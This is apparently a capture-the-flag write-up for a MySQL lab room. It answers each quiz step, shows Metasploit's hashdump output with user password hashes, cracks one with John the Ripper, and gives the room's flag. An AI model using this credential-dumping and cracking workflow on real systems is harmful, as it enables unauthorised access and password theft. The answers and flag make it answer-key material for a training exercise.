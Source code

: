 _Great! Now, you've done this a few times by now so I'll let you take it from here. Set the relevant options, run the exploit. What's the name of the last table that gets dumped?_  

**x$waits_global_by_latency**

_Awesome, you have now dumped the tables, and column names of the whole database. But we can do one better... search for and select the "mysql_hashdump" module. What's the module's full name?_

**auxiliary/scanner/mysql/mysql_hashdump**

_Again, I'll let you take it from here. Set the relevant options, run the exploit. What non-default user stands out to you?_  

**Carl**

![[Pasted image 20240703021313.png]]

```php
[+] 10.10.14.213:3306 - Saving HashString as Loot: root:
[+] 10.10.14.213:3306 - Saving HashString as Loot: mysql.session:*THISISNOTAVALIDPASSWORDTHATCANBEUSEDHERE
[+] 10.10.14.213:3306 - Saving HashString as Loot: mysql.sys:*THISISNOTAVALIDPASSWORDTHATCANBEUSEDHERE
[+] 10.10.14.213:3306 - Saving HashString as Loot: debian-sys-maint:*D9C95B328FE46FFAE1A55A2DE5719A8681B2F79E
[+] 10.10.14.213:3306 - Saving HashString as Loot: root:*2470C0C06DEE42FD1618BB99005ADCA2EC9D1E19
[+] 10.10.14.213:3306 - Saving HashString as Loot: carl:*EA031893AA21444B170FC2162A56978B8CEECE18
[*] 10.10.14.213:3306 - Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
```



_Another user! And we have their password hash. This could be very interesting. Copy the hash string in full, like: bob:*HASH to a text file on your local machine called "hash.txt"._


_What is the user/hash combination string?_  

**carl:*EA031893AA21444B170FC2162A56978B8CEECE18**

_Now, we need to crack the password! Let's try John the Ripper against it using: "_john hash.txt_" what is the password of the user we found?

**carl:doggie**

![[Pasted image 20240703024401.png]]

_Awesome. Password reuse is not only extremely dangerous, but extremely common. What are the chances that this user has reused their password for a different service?_  

_What's the contents of MySQL.txt_

**THM{congratulations_you_got_the_mySQL_flag}**

![[Pasted image 20240703024524.png]]

---
